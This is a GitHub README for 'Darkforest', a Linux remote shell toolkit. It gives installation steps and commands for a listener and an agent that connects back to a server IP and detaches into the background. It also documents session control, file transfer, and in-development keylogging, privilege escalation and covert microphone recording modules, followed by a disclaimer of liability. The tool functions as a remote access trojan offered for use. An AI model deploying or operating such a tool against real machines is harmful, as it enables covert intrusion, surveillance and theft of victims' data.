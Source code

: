 <div align="center">
    <a href="https://github.com/kit4py/darkforest/stargazers">
        <img src="https://img.shields.io/github/stars/kit4py/darkforest?color=cba6f7&style=for-the-badge&logo=starship">
    </a>
    <a href="https://github.com/kit4py/darkforest/issues">
        <img src="https://img.shields.io/github/issues/kit4py/darkforest?color=fae3b0&style=for-the-badge&logo=github">
    </a>
    <a href="https://github.com/kit4py/darkforest/network/members">
        <img src="https://img.shields.io/github/forks/kit4py/darkforest?color=94e2d5&style=for-the-badge&logo=git-fork">
    </a>
    <a href="https://github.com/kit4py/darkforest/blob/main/LICENSE">
        <img src="https://img.shields.io/badge/license-MIT-rosewater?color=f5e0dc&style=for-the-badge&logo=archlinux">
    </a>
</div>

# Darkforest

A modular, scalable remote shell toolkit for Linux with session management, keylogging, audio recording, and more (features under development).


## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/kit4py/darkforest.git
   cd darkforest
   ```
2. Install dependencies in editable mode:

   ```bash
   pip install -e .
   ```
3. Ensure system dependencies:

   ```bash
   sudo apt update && sudo apt install ffmpeg
   ```

## Usage

### Start the server (listener)

```bash
rserver --host 0.0.0.0 --port 5555
```

### Launch the client (agent)

```bash
rclient --host <SERVER_IP> --port 5555
```

The client will detach to the background and free your terminal.

## Menu Commands

When the server starts, use the `darkforest>` prompt:

* `sessions`           : List active sessions
* `enter <session_id>` : Interact with a session
* `kill <session_id>`  : Terminate a session
* `clear`              : Clear the screen
* `help`               : Show this help message
* `quit`               : Exit the server

## In-Session Shell Commands

Once inside a session, the prompt changes to:

```
* [<session_id>] Shell~(<client_addr>):
```

Available commands:

* `cd <path>`           : Change directory on client
* `download <file>`     : Download file from client to server
* `upload <file>`       : Upload file from server to client
* `clear`               : Clear this local shell screen
* `exit`                : Return to the main menu
* `quit`                : Close the session

## Feature Modules (under development)

* **Keylogger**: `keylogger_start` / `keylogger_stop` (logs saved as `keylogs_session_<id>.txt`)
* **Privilege Escalation**: `priv_escalate`
* **Microphone Recorder**: `record_mic <seconds>` (MP3/WAV conversion requires `ffmpeg`)
* **Sound Player**: `play_sound <file.mp3>`

## Legal Disclaimer

> You expressly understand and agree that Darkforest (creators and contributors) shall not be liable for any damages or losses resulting from your use of this tool or third-party products that use it.
>
> **Creators have no responsibility for:**
>
> * Unlawful or illegal use of the tool.
> * Legal or law infringement by third parties and users.
> * Acts against ethical and/or human moral, cultural, or societal norms.
> * Malicious use or distribution causing damage to third parties.

---

© 2025 Darkforest Contributors. Licensed under the MIT License.

